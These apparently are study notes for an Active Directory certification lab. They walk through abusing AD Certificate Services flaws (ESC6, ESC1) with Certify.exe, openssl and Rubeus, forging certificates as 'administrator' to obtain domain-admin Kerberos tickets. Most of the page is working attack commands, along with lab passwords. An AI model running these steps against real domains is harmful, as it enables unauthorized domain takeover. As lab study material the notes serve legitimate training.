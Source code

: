 **ESC 6**

The CA in moneycorp has EDITF\_ATTRIBUTESUBJECTALTNAME2 flag set. This means that we can request a certificate for ANY user from a template that allow enrollment for normal/low-privileged users

{% code overflow="wrap" %}
```powershell
Certify.exe find

The template "CA-Integration" grants enrollment to the RDPUsers group. Request a
certificate for DA (or EA) as studentx
Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DCCA /template:"CA-Integration" /altname:administrator

Convert from cert.pem to pfx (esc6.pfx below) and use it to request a TGT for DA (or
EA).
Rubeus.exe asktgt /user:administrator /certificate:esc6.pfx /password:SecretPass@123 /ptt

```
{% endcode %}

**ESC1**

The template "HTTPSCertificates" has ENROLLEE\_SUPPLIES\_SUBJECT value for msPKI-Certificates-Name-Flag

Needs extracted Certificate  - see CRTE Lab 10

{% code overflow="wrap" %}
```powershell
Certify.exe find /enrolleeSuppliesSubject

The template "HTTPSCertificates" allows enrollment to the RDPUsers group. Request
a certificate for DA (or EA) as studentx
Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DCCA /template:"HTTPSCertificates" /altname:administrator /outfile:esc1.pem

Edit File esc1.pem: 
 -----BEGIN RSA PRIVATE KEY----- ... -----END CERTIFICATE-----

Convert from cert.pem to pfx (esc1.pfx below) and use it to request a TGT for DA (or
EA).
C:\AD\Tools\openssl\openssl.exe pkcs12 -in C:\AD\Tools\esc1.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out C:\AD\Tools\esc1-DA.pfx

Rubeus.exe asktgt /user:administrator /certificate:esc1.pfx
/password:SecretPass@123 /ptt

```
{% endcode %}

**If we have the certificate of a User  see CRTE Lab 10**

<pre data-overflow="wrap"><code><strong>Use the certificate to request a TGT of the user you have the cert
</strong><strong>C:\AD\Tools\Rubeus.exe asktgt /user:pawadmin /certificate:C:\AD\Tools\pawadmin.pfx /password:PWyouSetWhenExtractingTheCert /nowrap /ptt
</strong><strong>
</strong><strong>Now TGT is in klist
</strong><strong>
</strong><strong>Now Request a certificate for the domain admin user via the template ForAdminsofPrivilegedAccessWorkstations
</strong>C:\AD\Tools\Certify.exe request /ca:TechcorpDC.techcorp.local\TECHCORP-DC-CA /template:ForAdminsofPrivilegedAccessWorkstations /altname:Administrator 
